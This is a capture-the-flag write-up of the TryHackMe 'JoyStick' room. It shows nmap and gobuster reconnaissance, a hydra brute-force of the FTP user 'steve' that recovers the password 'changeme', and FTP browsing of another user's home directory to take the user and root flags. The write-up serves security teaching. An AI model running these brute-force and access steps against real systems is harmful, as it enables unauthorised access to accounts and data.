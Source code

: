 # JoyStick

```
export IP=10.10.122.11
```

## Task 1 - Root It!

### 1 User Flag
Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ nmap -sC -sV -Pn -n $IP -oN nmap/initial
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-25 00:40 MDT
Nmap scan report for 10.10.122.11
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.44 seconds
```

Initial gobuster scan:
```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.122.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/25 00:40:22 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/25 00:41:45 Finished
===============================================================
```

At first, going to the website we see a short note that JoyStick is going to be a minecraft server, but isn't publicly available just yet:


![minecraft](https://user-images.githubusercontent.com/32188816/82785985-e832b200-9e20-11ea-93dc-f27223a16544.png)

Viewing the HTML source we also find a comment with some potentially useful details:


![ftp_server_note](https://user-images.githubusercontent.com/32188816/82786084-26c86c80-9e21-11ea-9c79-9e1d9fdcde07.png)

So far we have just a couple of notes:
  * Username is `steve`
  * FTP server is dysfunctional
  * There is an IRC service
  * Something is using a default password (presumably steve's account for FTP, IRC, or SSH?)

We can see from the nmap scan that we got a 500 error, lets try to connect to FTP and see what the error is:

```bash
500 "OOPS: vsftpd: refusing to run with writable root inside chroot()"
```

We know a couple things about this error from doing some basic research on it:
  * The home directory (which is the root of the FTP subdirectories) of the user we are connecting as is write-enabled
  * This is often the case when sharing SSH and FTP users
  * We can write to the FTP subdirectories, but we can also write to the parent directories, so vsftpd is complaining and giving a 500

So, we can assume that the FTP username is `steve`, and that the password is insecure because steve still hasn't changed it. We cannot use the Anonymous login because of the 500 error code, but we can run hydra to see if we can get in as steve. Doing so seems promising:

```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ hydra -l steve -P /usr/share/wordlists/rockyou.txt ftp://$IP
[STATUS] 118.05 tries/min, 2422 tries in 00:20h, 14341977 to do in 2024:51h, 16 active

[21][ftp] host: 10.10.122.11   login: steve   password: changeme
```

**Note:** Like we discussed earlier in the reasons for the FTP 500 error code, we know that these credentials are also steve's SSH creds, and we could just as easily SSH to the device and navigate through that.

Once we log in as steve we have a lot of files, as we are placed directly into steve's home directory due to the error discussed earlier:

```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ ftp -n $IP
Connected to 10.10.122.11.
220 (vsFTPd 3.0.3)
ftp> user
(username) steve
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/home/steve" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Desktop
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Documents
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Downloads
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Music
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Pictures
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Public
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 SteveStuff
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Templates
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Videos
-rw-r--r--    1 ftp      ftp          8980 May 03  2019 examples.desktop
-rw-rw-r--    1 ftp      ftp        589485 May 03  2019 snes.png
-rw-r--r--    1 ftp      ftp            19 May 03  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (19 bytes).
226 Transfer complete.
19 bytes received in 0.00 secs (421.6974 kB/s)
ftp>
```

Now that we have the `user.txt` file we can retrieve our user flag:

```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ cat user.txt
flag{is_only_gaem}
```

### 2 Root Flag

Since we know that this FTP server configuration is flawed, our FTP session is nearly an SSH session since we can write to the parent FTP directory. That said, we can navigate around and look at some other locations on the box. Doing so we see that there are two other directories in `/home`:

```bash
ftp> pwd
257 "/home/steve" is the current directory
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 ftp      ftp          4096 May 04  2019 minecraft
drwxr-xr-x   18 ftp      ftp          4096 May 04  2019 notch
drwxr-xr-x   17 ftp      ftp          4096 May 04  2019 steve
226 Directory send OK.
```

Taking a look in the `/home/notch` directory shows that there is a file named `root.txt`:

```bash
ftp> cd notch
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Desktop
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Documents
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Downloads
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Music
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Pictures
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Public
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Templates
drwxr-xr-x    2 ftp      ftp          4096 May 03  2019 Videos
-rw-rw-r--    1 ftp      ftp        142136 May 03  2019 creeper-minimalist.jpg
-rw-rw-r--    1 ftp      ftp           181 May 04  2019 eula.txt
-rw-r--r--    1 ftp      ftp          8980 May 03  2019 examples.desktop
drwxrwxr-x    2 ftp      ftp          4096 May 04  2019 logs
-rw-rw-r--    1 ftp      ftp            36 May 03  2019 root.txt
-rw-rw-r--    1 ftp      ftp            59 May 04  2019 server.properties
226 Directory send OK.
```

So, let's see if we can read that file as the steve user and pull it down:

```bash
ftp> get root.txt
local: root.txt remote: root.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for root.txt (36 bytes).
226 Transfer complete.
36 bytes received in 0.00 secs (1004.4642 kB/s)
ftp>
```

Sweet, looks like we were able to get the file which means it must have had read permissions for at least steve, and now we have the root flag:
```bash
jeffrowell@kali:~/Documents/TryHackMe/JoyStick$ cat root.txt
flag{poorly_configured_permissions}
```
